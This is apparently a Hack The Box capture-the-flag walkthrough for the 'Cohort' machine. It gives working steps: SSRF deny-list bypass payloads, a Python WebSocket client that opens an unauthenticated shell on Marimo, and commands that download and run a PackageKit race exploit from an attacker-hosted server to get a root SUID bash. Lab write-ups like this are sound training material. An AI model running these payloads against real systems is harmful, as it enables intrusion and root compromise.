

# Cohort HTB Challenge Walkthrough

## Challenge Overview
- **Machine**: Cohort
- **Difficulty**: Medium (3.5/5)
- **User Rating**: 65/100
- **XP Reward**: 585
- **Techniques**: SSRF, Bypass, WebSocket RCE, Privilege Escalation

## Attack Chain Summary
```
nmap → cohort.htb (80/443, 5000, 8888)
  → portal.html → /api/validate (SSRF)
    → http://127.1/status (IPv4 shorthand bypass)
      → vhost nb-1be3782a8afd3ad5.cohort.htb → 127.0.0.1:8888 (Marimo 0.20.4)
        → wss://<IP>/terminal/ws (CVE-2026-39987 - no auth)
          → shell as marimo
            → PackageKit 1.2.8 (CVE-2026-41651 - TOCTOU race)
              → /tmp/.suid_bash -p → root → /root/root.txt
```

---

## Phase 1 — Reconnaissance

### Host Setup
Add the target to `/etc/hosts`:
```bash
sudo sh -c 'echo "10.129.244.174 cohort.htb" >> /etc/hosts'
```

### Port Scanning
```bash
sudo nmap -sC -sV -p- 10.129.244.174 -oN cohort_scan.txt
```

### Open Ports
```
22/tcp   OpenSSH (SSH)
80/tcp   nginx (HTTP - cohort.htb)
443/tcp  nginx (HTTPS - cohort.htb)
5000/tcp Flask API (insights-api)
8888/tcp Marimo notebook server (localhost-only)
```

---

## Phase 2 — Web Portal & SSRF Discovery

### Portal Enumeration
Browse to `https://cohort.htb` to access the data analytics portal. Open `portal.html` - it contains a form for validating/fetching data sources via URL input, which the backend fetches → **SSRF**.

### Confirming SSRF
Start a listener:
```bash
python3 -m http.server 8000
```

Submit this URL in the portal field or via Burp Repeater to `POST https://cohort.htb/api/validate`:
```
http://10.10.14.X:8000/ssrf-test
```

Response: HTTP server logs show incoming connection → outbound fetch confirmed.

---

## Phase 3 — Filter Bypass & Internal Service Discovery

### The Bypass
The backend deny-lists `localhost`, `127.0.0.1`, and private ranges as literal strings. Use IPv4 shorthand - **`127.1`** equals `127.0.0.1`.

### Internal Status Page
Send through the portal or to `/api/validate`:
```
http://127.1/status
```

### Response
```json
{
  "ok": true,
  "fetched_status": 200,
  "preview": "{\"service\":\"cohort-edge\",\"status\":\"ok\",\"upstreams\":[{\"name\":\"marketing\",\"host\":\"cohort.htb\",\"root\":\"/var/www/cohort\"},{\"name\":\"insights-api\",\"host\":\"cohort.htb\",\"path\":\"/api/\",\"target\":\"127.0.0.1:5000\"},{\"name\":\"notebooks\",\"host\":\"nb-1be3782a8afd3ad5.cohort.htb\",\"target\":\"127.0.0.1:8888\",\"note\":\"internal analyst workspace, not for external use\"}]}",
  "message": "Source reachable."
}
```

### Key Discovery
vhost `nb-1be3782a8afd3ad5.cohort.htb` → routes to **Marimo** on `127.0.0.1:8888`.

Add vhost to `/etc/hosts`:
```bash
sudo sh -c 'echo "10.129.244.174 nb-1be3782a8afd3ad5.cohort.htb" >> /etc/hosts'
```

### Alternative Bypass Techniques
If `127.1` is filtered, try:
- `http://127.0.0.1@127.1/status`
- `http://0x7f000001/status`
- `http://127.1:80/status`

---

## Phase 4 — Remote Code Execution: Marimo Unauthenticated WebSocket

### Vulnerability Details
- **CVE**: CVE-2026-39987
- **Affected**: Marimo **0.20.4** (< patched 0.23.0)
- **Issue**: `/terminal/ws` endpoint skips authentication, providing full PTY shell

### Exploit Code
Run this Python client on Kali (requires `pip install websocket-client`):

```python
import ssl, threading, websocket

host    = "nb-1be3782a8afd3ad5.cohort.htb"
ws_url  = "wss://10.129.244.174/terminal/ws"

ws = websocket.create_connection(
    ws_url,
    host=host,
    origin="https://" + host,
    sslopt={"cert_reqs": ssl.CERT_NONE},
    timeout=5,
)

def recv_loop():
    while True:
        try:
            print(ws.recv(), end="")
        except Exception:
            break

threading.Thread(target=recv_loop, daemon=True).start()

while True:
    cmd = input()
    if cmd.lower() == "exit":
        break
    ws.send(cmd + "\r")
ws.close()
```

### Execute
```
id
```
Response: `uid=1001(marimo) gid=1001(marimo) groups=1001(marimo)`

**RCE obtained!** Shell as `marimo` user.

---

## Phase 5 — Privilege Escalation

### Vulnerability Details
- **CVE**: CVE-2026-41651 ("Pack2TheRoot")
- **Affected**: PackageKit 1.2.8 (vulnerable range 1.0.2–1.3.4)
- **Issue**: TOCTOU race with D-Bus and `dpkg-deb`

### Exploit Preparation

**1. Download exploit binary on Kali:**
```bash
curl -O https://raw.githubusercontent.com/shibaaa204/Pack2TheRoot/main/exploit.bin
```

**2. Serve the binary:**
```bash
python3 -m http.server 8000
```

**3. Download to target shell:**
```bash
curl -o ~/exploit.bin http://10.10.14.X:8000/exploit.bin
chmod +x ~/exploit.bin
ls -l ~/exploit.bin
```
> **Note**: Download to home directory (`~`), not `/tmp` - critical for execution.

### Exploit Execution

**1. Clean up previous attempts:**
```bash
rm -f /tmp/.suid_bash /tmp/pk.log
```

**2. Trigger the race condition:**
```bash
nohup ~/exploit.bin >/tmp/pk.log 2>&1 &
```

**3. Wait and verify:**
```bash
sleep 15
cat /tmp/pk.log
ls -l /tmp/.suid_bash
```

Expected output: SUID bash at `/tmp/.suid_bash` (root-owned, SUID bit set). The exploit logs "PK error 48" and "Finished (exit=2)" - this is normal; the SUID bash is already on disk.

### Root Access

**Escalate to root** (must use `-p` to preserve effective UID):
```bash
/tmp/.suid_bash -p -c 'id; cat /root/root.txt'
```

Expected response:
```
uid=1001(marimo) gid=1001(marimo) euid=0(root) groups=1001(marimo)
HTB{...}
```

### If SUID File Not Created
If the SUID file isn't present after 15 seconds, retry:
```bash
rm -f /tmp/.suid_bash /tmp/pk.log
nohup ~/exploit.bin >/tmp/pk.log 2>&1 &
sleep 15
ls -l /tmp/.suid_bash
```

---

## Tools Used
- **nmap** - Port scanning
- **python3** - HTTP server, exploit development
- **websocket-client** - WebSocket connections
- **curl** - File transfers
- **Pack2TheRoot** - Privilege escalation exploit

## Key Learnings
1. **SSRF Bypass**: IPv4 shorthand (`127.1`) bypasses literal deny-lists
2. **Internal Enumeration**: Status endpoints often leak internal service details
3. **WebSocket RCE**: Unauthenticated terminals provide instant shell access
4. **Privilege Escalation**: PackageKit TOCTOU race can yield SUID bash
5. **File Locations**: Downloading exploits to correct directories matters

## References
- [CVE-2026-39987] Marimo Unauthenticated WebSocket Terminal
- [CVE-2026-41651] PackageKit TOCTOU Race (Pack2TheRoot)
- [Pack2TheRoot GitHub](https://github.com/shibaaa204/Pack2TheRoot)

## Disclaimer
This walkthrough is for **educational purposes only**. Use only on systems you have explicit permission to test. Unauthorized access is illegal.

## Author
## Author
[pentagon404uzb/cohort-linux-machine](https://github.com/pentagon404uzb)

## License
MIT License - See LICENSE file for details

## Acknowledgments
- Hack The Box for the challenge
- Security community for exploit research and tools
